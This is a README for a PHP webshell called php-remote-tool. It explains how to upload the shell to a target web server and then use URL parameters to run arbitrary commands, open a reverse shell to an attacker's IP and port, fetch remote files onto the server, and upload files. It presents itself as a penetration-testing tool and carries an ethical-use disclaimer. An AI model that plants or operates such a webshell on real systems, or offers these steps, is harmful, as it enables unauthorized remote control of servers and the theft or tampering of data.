 # PHP Remote Tool
Author: Yavuz Sahbaz
GitHub: https://github.com/YavuzSahbaz

## Overview
php-remote-tool is a PHP webshell script that enables remote command execution, reverse shell initiation, file downloading, and file uploading on a target system running a web server with PHP support. This script is designed for use during penetration testing exercises or system administration tasks where you have permission to perform these actions on the target system. Unauthorized use may be illegal and unethical.

## Usage
Upload the php-remote-tool script to the target web server.
Access the script through a web browser or a tool like curl or wget.
Execute commands
To execute a command on the target system, use the following URL format:


Copy code
http://target.com/path/cmd.php?cmd=[COMMAND]
Replace [COMMAND] with the command you want to execute on the target system.

## Initiate reverse shell
To initiate a reverse shell to your system, use the following URL format:


Copy code
http://target.com/path/cmd.php?revshell=[ATTACKER_IP]:[ATTACKER_PORT]
Replace [ATTACKER_IP] with your IP address and [ATTACKER_PORT] with the port you want to use for the reverse shell connection. Make sure to set up a listener on your system to receive the connection.

## Download a file
To download a file from a URL and save it on the target system, use the following URL format:


Copy code
http://target.com/path/cmd.php?download=[URL]&filename=[FILENAME]
Replace [URL] with the URL of the file you want to download, and [FILENAME] with the desired name for the saved file on the target system.

## Upload a file
To upload a file to the target system, use the following URL format:

Copy code
http://target.com/path/cmd.php?upload&filepath=[FILE_PATH]
Replace [FILE_PATH] with the desired file path for the uploaded file on the target system. Use an HTTP POST request to send the file with the Content-Type header set to multipart/form-data and the file parameter named "file".

## Disclaimer
This PHP webshell script is intended for educational purposes and ethical use only. Unauthorized use of this script may be illegal and unethical. Always make sure you have permission to perform any action on the target system and follow ethical hacking principles and guidelines. The author and any contributors are not responsible for any damage caused by unauthorized use of this script.
